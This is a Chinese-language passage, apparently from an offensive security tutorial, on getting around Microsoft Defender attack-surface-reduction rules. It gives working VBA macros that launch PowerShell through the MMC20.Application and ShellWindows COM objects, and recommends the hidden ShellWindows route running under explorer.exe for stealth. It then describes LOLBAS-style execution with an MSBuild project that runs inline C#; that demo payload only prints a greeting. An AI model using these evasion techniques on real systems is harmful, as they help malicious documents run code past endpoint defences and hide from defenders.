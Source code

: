 
面是一个使用 MMC20.Application 的例子:

```
Sub Exec()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub
```

下面是另一个使用 ShellWindows 的例子:

这将不会产生一个可见的 PowerShell 窗口，但是它将作为  explorer.exe 的子窗口运行。这可能是产生 PowerShell 的最 OPSEC 方式(就 OPSEC 和 PowerShell 而言)。
```
Sub Exec()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub
```

**LOLBAS**

在启用此规则时，并非所有进程都被阻塞,WScript.Shell依然可以使用

1683862769161.jpg

这表明 ASR 规则实际上是基于某种黑名单的，因此可以使用基于命令行的执行。寻找这些的一个显而易见的地方是 [LOLBAS](https://lolbas-project.github.io/) 项目


MSBuild（以.xml 或者 .csproj做后缀的文件）可以内联C#代码，文档[在此](https://learn.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2022)

一个例子
```
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
    <ASRSucks />
  </Target>
  <UsingTask
    TaskName="ASRSucks"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        
        public class ASRSucks : Task, ITask
        {         
          public override bool Execute()
          {
              Console.WriteLine("Hello from C#!");
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
